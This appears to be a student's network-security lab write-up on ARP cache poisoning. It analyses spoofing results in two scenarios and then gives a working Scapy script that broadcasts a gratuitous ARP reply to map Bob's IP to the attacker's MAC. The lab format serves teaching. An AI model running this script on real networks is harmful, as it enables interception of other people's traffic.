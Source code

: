 After the attack, Alice's ARP table incorrectly maps Bob's IP address (10.0.182.2) to Mallory's MAC address (02:42:0a:00:b6:03), indicating a successful ARP spoofing by Mallory.


**Was the attack successful? Explain how. (Both scenarios)**

In Scenario 1, Bob's IP was pre-existing in Alice's ARP cache, making the attack successful. Mallory's spoofed ARP reply packet was able to modify Alice's ARP cache by replacing the legitimate MAC address for Bob's IP with Mallory's MAC address. 

In Scenario 2, since Bob's IP was not in Alice's ARP cache initially and the cache was empty, Mallory's spoofed ARP packet had no effect. The ARP table remained unchanged, showing that without a pre-existing entry, the spoofed ARP reply does not populate the cache.

**Difference between scenario 1 and 2**

The key difference between the scenarios is the pre-existence of Bob's IP in Alice's ARP cache. Scenario 1 demonstrates the ARP protocol's vulnerability to spoofed replies that overwrite existing entries, while Scenario 2 reveals that spoofed ARP replies cannot introduce new entries into an empty cache, highlighting a limitation in how ARP spoofing affects ARP tables without prior entries.

## Task 1.C: Gratuitous ARP Attack

In this task, we demonstrate the use of a gratuitous ARP message to manipulate the ARP cache of network participants, specifically targeting Alice's machine to intercept communications intended for Bob

The objective is to construct and send a gratuitous ARP packet from Mallory with the aim of mapping Bob's IP address to Mallory's MAC address in Alice's ARP cache.

A gratuitous ARP is a special type of ARP message used to update an ARP cache without a prior request. This task involves crafting such a message to alter ARP cache entries, demonstrating a potential vulnerability in network communication.

## Attack Execution

Below is the Python script run from Mallory's container to execute the gratuitous ARP attack.


```python
from scapy.all import *

# Set Bob's IP as both source and destination IP in the ARP packet
ip_address = "10.0.61.2"  # Bob's IP Address

# Mallory's MAC Address (As found from the previous task)
mac_address = "02:42:0a:00:3d:04"

# Construct the Gratuitous ARP packet
arp_packet = ARP(op=2, psrc=ip_address, hwsrc=mac_address, pdst=ip_address, hwdst="ff:ff:ff:ff:ff:ff")

# Wrap the ARP packet in an Ethernet frame to set the Ethernet destination to broadcast MAC
ethernet_frame = Ether(dst="ff:ff:ff:ff:ff:ff", src=mac_address) / arp_packet

# Send the packet on the network
sendp(ethernet_frame)
```
